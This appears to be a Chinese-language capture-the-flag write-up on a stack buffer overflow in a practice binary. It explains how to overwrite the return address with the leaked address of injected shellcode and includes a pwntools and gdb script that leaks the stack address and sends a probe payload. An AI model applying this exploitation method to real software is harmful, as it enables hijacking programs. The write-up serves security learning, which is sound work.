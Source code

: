 明显的溢出漏洞，`dest`仅有0x32字节，但是可以读入0x400字节，往里面写入shellcode

**思路**

往s里写入shllcode，执行vuln函数后让dest溢出，将返回地址修改为shellcode的地址

**实施**

但是dest是栈上的数据，一般情况下我们是找不到我们写入的地址的，那就没办法执行shellcode的地址。

执行一次程序可以发现其实程序一开始就把我们输入的地址给我们了

```c
  printf("Yippie, lets crash: %p\n", s);
```

那么我们算出shellcode和我们输入的起始位置的偏移，就可以得到shellcode的地址

先写一个测试脚本

```python
from pwn import *
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
p=process('./pwn')
context.log_level='debug'

gdb.attach(p,'b *0x8048600')#利用gdb动调，在0x8048600处下了个断点

p.recvuntil('crash: ')
stack=int(p.recv(10),16)
print (hex(stack))

payload='crashme\x00'+'aaaaaa'#前面的crashme\x00绕过if判断
      #后面的aaaa是测试数据，随便输入的，我们等等去栈上找它的地址

pause()
p.sendline(payload)
pause()
```

`0x8048600`是一个`nop`指令的地址，在这里下一个断点，方便调试
